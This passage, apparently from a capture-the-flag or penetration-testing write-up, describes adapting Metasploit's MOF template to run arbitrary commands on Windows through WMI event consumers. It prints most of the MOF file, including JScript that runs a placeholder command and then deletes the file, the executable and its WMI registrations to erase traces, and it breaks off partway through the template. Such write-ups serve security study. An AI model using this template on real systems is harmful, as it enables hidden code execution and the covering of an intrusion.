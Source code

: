 #### Template

Because these are complex files, with a lot of room for error and not much in the way of feedback, I took the approach of starting with the Metasploit script for creating MOF files as a template (*July 2023 update*: the file has since been renamed in Metasploit - [here](https://github.com/rapid7/metasploit-framework/blob/7e5e0f7fc814fee55a1eca148c51f2344da65e59/lib/msf/core/exploit/wbemexec.rb) is the file from when this post was published, and [here](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbem_exec.rb) is the current version). Almost that entire script is a text string, where a few variables are replaced to produce a mof file. Specifically, four updates are needed:
- Replace `@CLASS@` with a random number
- Replace `@EXE@` with command to run
- Replace `#{mofname}` with a mofname - I’ll use `a.mof`
- Fix escaping - Because the template is inside a ruby program, all of the `\`s are escaped. When writing a mof, we’ll reduce the escaping by one.

I’ll take care of three of those changes to create this template (leaving the `@EXE@` for later):

```

  1 #pragma namespace("\\\\.\\root\\cimv2")
  2 class MyClass12588
  3 {
  4         [key] string Name;
  5 };
  6 class ActiveScriptEventConsumer : __EventConsumer
  7 {
  8         [key] string Name;
  9         [not_null] string ScriptingEngine;
 10         string ScriptFileName;
 11         [template] string ScriptText;
 12   uint32 KillTimeout;
 13 };
 14 instance of __Win32Provider as $P
 15 {
 16     Name  = "ActiveScriptEventConsumer";
 17     CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
 18     PerUserInitialization = TRUE;
 19 };
 20 instance of __EventConsumerProviderRegistration
 21 {
 22   Provider = $P;
 23   ConsumerClassNames = {"ActiveScriptEventConsumer"};
 24 };
 25 Instance of ActiveScriptEventConsumer as $cons
 26 {
 27   Name = "ASEC";
 28   ScriptingEngine = "JScript";
 29   ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"@EXE@\");} catch (err) {};\nsv = GetObject(\"winmgmts:root\\\\cimv2\");try {sv.Delete(\"MyClass12588\");} catch (err) {};try {sv.Delete(\"__EventFilter.Name='instfilt'\");} catch (err) {};try {sv.Delete(\"ActiveScriptEventConsumer.Name='ASEC'\");}       catch(err) {};";
 30
 31 };
 32 Instance of ActiveScriptEventConsumer as $cons2
 33 {
 34   Name = "qndASEC";
 35   ScriptingEngine = "JScript";
 36   ScriptText = "\nvar objfs = new ActiveXObject(\"Scripting.FileSystemObject\");\ntry {var f1 = objfs.GetFile(\"wbem\\\\mof\\\\good\\\\a.mof\");\nf1.Delete(true);} catch(err) {};\ntry {\nvar f2 = objfs.GetFile(\"@EXE@\");\nf2.Delete(true);\nvar s = GetObject(\"winmgmts:root\\\\cimv2\");s.Delete(\"__EventFilter.       Name='qndfilt'\");s.Delete(\"ActiveScriptEventConsumer.Name='qndASEC'\");\n} catch(err) {};";
 37 };
 38 instance of __EventFilter as $Filt
```